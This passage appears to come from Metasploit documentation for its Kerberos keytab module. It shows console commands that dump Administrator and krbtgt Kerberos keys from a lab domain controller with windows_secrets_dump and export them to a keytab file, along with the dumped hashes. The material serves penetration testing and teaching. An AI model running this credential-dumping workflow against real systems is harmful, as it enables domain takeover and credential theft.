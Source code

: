 Adding entries using a specified password:

```
msf6 auxiliary(admin/kerberos/keytab) > run action=ADD keytab_file=./example.keytab principal=Administrator realm=DEMO.LOCAL enctype=ALL password=p4$$w0rd

[*] modifying existing keytab
[*] Generating key with salt: DEMO.LOCALAdministrator. The SALT option can be set manually
[+] keytab entry added to ./example.keytab
```

### Export

Export Kerberos encryption keys stored in the Metasploit database to a keytab file. This functionality is useful in conjunction with secrets dump

```
# Secrets dump
msf6 > use auxiliary/gather/windows_secrets_dump
msf6 auxiliary(gather/windows_secrets_dump) > run smbuser=Administrator smbpass=p4$$w0rd rhosts=192.168.123.13
... ommitted ...
# Kerberos keys:
Administrator:aes256-cts-hmac-sha1-96:56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01
Administrator:aes128-cts-hmac-sha1-96:df990c21c4e8ea502efbbca3aae435ea
Administrator:des-cbc-md5:ad49d9d92f5da170
Administrator:des-cbc-crc:ad49d9d92f5da170
krbtgt:aes256-cts-hmac-sha1-96:e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c
krbtgt:aes128-cts-hmac-sha1-96:ba87b2bc064673da39f40d37f9daa9da
krbtgt:des-cbc-md5:3ddf2f627c4cbcdc
... ommitted ...
[*] Auxiliary module execution completed

# Export to keytab
msf6 auxiliary(gather/windows_secrets_dump) > use admin/kerberos/keytab
msf6 auxiliary(admin/kerberos/keytab) > run action=EXPORT keytab_file=./example.keytab
[+] keytab saved to ./example.keytab
Keytab entries
==============

 kvno  type              principal                                   hash                                                              date
 ----  ----              ---------                                   ----                                                              ----
 1     1  (DES_CBC_CRC)  WIN11-DC3$@adf3.local                       3e5d83fe4594f261                                                  1970-01-01 01:00:00 +0100
 1     17 (AES128)       ADF3\DC3$@adf3.local                        967ccd1ffb9bff7900464b6ea383ee5b                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  ADF3\DC3$@adf3.local                        62336164643537303830373630643133                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       Administrator@adf3.local                    56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01  1970-01-01 01:00:00 +0100
 1     17 (AES128)       Administrator@adf3.local                    df990c21c4e8ea502efbbca3aae435ea                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     1  (DES_CBC_CRC)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       krbtgt@adf3.local                           e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c  1970-01-01 01:00:00 +0100
 1     17 (AES128)       krbtgt@adf3.local                           ba87b2bc064673da39f40d37f9daa9da                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  krbtgt@adf3.local                           3ddf2f627c4cbcdc                                                  1970-01-01 01:00:00 +0100
```
